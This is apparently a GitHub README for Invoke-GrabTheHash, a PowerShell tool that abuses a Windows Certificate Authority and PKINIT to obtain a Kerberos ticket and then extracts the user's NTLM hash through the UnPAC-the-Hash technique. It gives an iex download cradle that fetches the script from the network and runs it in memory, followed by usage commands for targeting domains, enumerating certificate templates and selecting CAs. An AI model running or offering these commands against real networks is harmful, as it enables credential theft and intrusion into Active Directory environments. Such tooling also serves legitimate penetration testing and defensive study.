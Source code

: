 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the Current Session User's TGT, uses PKINIT to obtain a TGT for the same user, then performs the UnPAC-the-Hash technique to extract the user's NTLM hash

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain <domain.name>
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName <template_name>
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.domain.local\domain-CA01-CA"
```

### Specify the User Account Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN <samaccountname>
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/fcb77053-ebf9-4132-bbaf-8a576a6d08b1)
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/77d38f85-130f-4890-87ee-e9373b2c56ec)
